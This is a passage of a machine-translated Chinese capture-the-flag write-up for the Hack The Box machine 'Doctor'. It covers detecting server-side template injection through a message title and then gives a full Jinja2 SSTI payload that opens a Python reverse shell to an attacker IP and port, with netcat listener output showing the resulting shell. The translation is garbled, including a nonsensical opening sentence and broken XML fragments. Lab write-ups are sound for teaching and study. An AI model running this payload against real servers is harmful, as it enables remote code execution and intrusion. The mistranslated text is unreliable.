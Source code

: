 
毕竟有性传播感染！我创建了一个标题为 的新消息，结果指向 Jinja2 或 Twig：`{{7*'7'}}`

    	<?xml version="1.0" encoding="UTF-8" ?>
    	<rss version="2.0">
    	<channel>
     	<title>Archive</title>
     	<item><title>${7*7}</title></item>
    
    			</channel>
    			<item><title>49</title></item>
    	
    			</channel>
    			<item><title>7777777</title></item>
    	
    			</channel>
    

#### 壳

我将从有效载荷中获取[RCE有效载荷](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-popen-without-guessing-the-offset)，并通过放入我的IP /端口来修改它，并将过程更改为获取外壳：`bash -i`

    {% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"10.10.14.6\",443)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
    

当我把这个作为标题，然后刷新时，我得到一个shell：`/archive`

    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.209.
    Ncat: Connection from 10.10.10.209:40136.
    bash: cannot set terminal process group (912): Inappropriate ioctl for device
    bash: no job control in this shell
    web@doctor:~$ id
    uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
    

### 通过命令注入

#### 列举

每当我有一个表单在页面上显示回我的表单时，最好检查用户交互（如在[SecNotes](https://0xdf.gitlab.io/2019/01/19/htb-secnotes.html#get-tylers-credentials)中）和/或跨站点脚本（XSS）。我创建了两个链接，并在正文中放置了一个脚本框：

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20201101100239532.png) 

我启动了一个Python网络服务器，在点击提交时，创建了帖子：

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20201101100337162.png) 
